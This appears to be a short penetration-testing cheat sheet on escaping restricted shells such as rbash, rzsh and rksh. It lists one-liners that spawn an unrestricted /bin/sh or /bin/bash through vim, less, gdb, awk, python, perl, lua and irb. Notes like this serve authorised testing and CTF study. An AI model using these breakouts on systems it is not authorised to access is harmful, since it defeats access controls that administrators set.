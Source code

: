 # Escaping Restricted Shells

## Example restricted shells
- `rbash`
- `rzsh`
- `rksh`

## Ways to escape restricted shells
1. `/bin/bash` or `/bin/sh`
2. In `ftp|gdb|vim|vi|more|man|less`, `!/bin/bash`
3. `awk 'BEGIN {system("/bin/bash")}'`
4. `python -c 'import os; os.system("/bin/sh")'`
5. `perl -e 'exec "/bin/sh";'`
6. In `lua`, `os.execute('/bin/sh')`
7. In `irb`, `exec "/bin/sh"`

